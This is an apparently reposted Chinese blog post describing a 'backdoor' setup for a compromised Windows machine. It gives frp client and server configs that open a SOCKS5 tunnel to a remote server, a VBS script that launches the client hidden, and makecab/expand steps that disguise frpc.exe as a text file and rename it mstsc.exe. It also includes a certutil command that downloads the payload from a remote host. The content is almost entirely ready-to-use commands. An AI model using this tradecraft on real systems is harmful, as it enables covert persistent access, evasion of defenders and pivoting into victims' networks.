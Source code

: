 \> 本文由 \[简悦 SimpRead\](http://ksria.com/simpread/) 转码， 原文地址 \[www.cnblogs.com\](https://www.cnblogs.com/-mo-/p/12539341.html)

后门文件配置：

```
#frpc.ini
\[common\]
server\_addr = \*.\*.\*.\*
server\_port = 7000
token = 123456

\[socks\_proxy\]
type = tcp
remote\_port =8888
plugin = socks5


```

```
#frps.ini
\[common\]
bind\_addr =0.0.0.0
bind\_port =7000
token = 123456


```

```
#frpc.bat
frpc.exe -c frpc.ini

#frpc.vbs
Set ws = CreateObject("Wscript.Shell")
ws.run "cmd /c frpc.bat",vbhide


```

压缩解压:  
减少文件体积，提高文件上传速度，这里为了方便直接可以使用 windows 自带的压缩解压工具:

```
#压缩
makecab frpc.exe frpc.txt

#解压
expand C:\\Users\\RabbitMask\\Desktop\\test\\frpc.txt C:\\Users\\RabbitMask\\Desktop\\test\\mstsc.exe


```

远程下载:

```
certutil -urlcache -split -f http://192.168.1.1/frpc.txt  1.txt


```